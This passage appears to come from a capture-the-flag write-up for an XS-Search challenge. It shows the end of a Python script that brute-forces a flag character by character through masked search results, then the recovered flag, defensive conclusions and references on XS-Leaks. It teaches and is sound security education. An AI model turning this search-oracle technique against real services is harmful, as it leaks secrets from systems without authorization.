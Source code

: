 ```python
        # Filter out decoy match (like post id 4) by checking for masked content
        for post in data.get('results', []):
            if '*' in post['content']:
                print(f"[+] Match found via mask for '{probe}' → adding '{c}' to flag")
                known += c
                found = True
                break

        if found:
            break

    if not found:
        print("[-] No matching character found: maybe charset is wrong or flag ended.")
        break

print(f"\n✅ Final reconstructed flag: {known}")
```

![web application showcase](/images/l3ak25/leaking-flag.gif)

Flag is: `L3AK{L3ak1ng_th3_Fl4g??}`

## Conclusions

* Redacting sensitive data *without removing* it from search logic introduces oracles.
* Even seemingly harmless APIs (like search) can leak secrets via side-channels.
* XS-Leaks can be exploited without authentication or special privileges.
* Always apply redaction before matching, or remove sensitive data from queries entirely.
* Validating response shape consistency is crucial when designing secure APIs.

## References

1. [xsleaks.dev](https://xsleaks.dev/): The canonical guide to XS-Leaks and browser side-channels.
2. [XS-Search (xsleaks.dev)](https://xsleaks.dev/docs/attacks/xs-search/): Specific pattern used in this challenge.
3. [string.printable – Python Docs](https://docs.python.org/3/library/string.html#string.printable): Charset used in the brute-force script.


